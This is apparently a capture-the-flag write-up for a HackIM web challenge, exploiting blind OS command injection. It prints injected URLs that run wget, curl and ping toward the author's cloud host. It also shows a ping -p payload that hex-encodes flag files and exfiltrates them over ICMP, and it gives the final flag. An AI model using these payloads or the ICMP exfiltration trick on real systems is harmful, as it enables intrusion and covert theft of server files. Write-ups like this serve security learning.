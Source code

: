 ## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS command but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below steps: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
 
 None of the above command worked for me. Either application was filtering word like wget, curl or it was not allowing any outbound connection however the last try worked for me and that was ping command:
 
      http://54.89.146.217/index.php?cmd=ping%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com

I have started tcpdump on my cloud server and I was able to see packet.

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet_1.PNG "Optional Title") 

I took the advantage of ping command I have tried to check if hping3 or scappy were installed on linux box but unfortunately none of them were present on server as I was not able to see any ICMP requests for below condition: 
       
       http://54.89.146.217/index.php?cmd=if test -e "/usr/bin/scappy";then ping -c2 http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;
       http://54.89.146.217/index.php?cmd=if test -e "/usr/sbin/hping3";then ping -c2 ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;

Alright so after spending enought time, I was able to figure out below things:

- OS Commands were being executed on the server side but it was not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`scappy`,`curl`,`http` and many more however it was accepting ping command so I need to read the flag file using some command and send that flag to my server through ICMP packet.

Before I execute any command blindly on CTF server, I thought to send few ICMP packets with some data to my cloud server.  

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/ping_req.PNG "Optional Title") 

I quickly crafted command which will first read flag1 file and send that through ICMP packet. Below was my final attempt to read flagpart1.txt file:
 
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart1.txt)

Reading ICMP packets on my server using tcpdump
   
  ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag1.PNG "Optional Title") 

Flag 1 from flagpart1.txt was '0omgth4t'. 

Reading flagpart2.txt file: 
   
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart2.txt)

Reading ICMP packets on my server using tcpdump

   ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag2.PNG "Optional Title") 

Flag 2 from flagpart2.txt was 'aniceflag'. 
   
and our final flag(flagpart1+flagpart2) is
   
      flag{0omgth4taniceflag}
    
## Credits
- Shubham Mittal
- Sanjog Panda
- Archita Aparichita
- Pratap Chandra
- Chandrakant Nial
- Swaroop Yermalkar


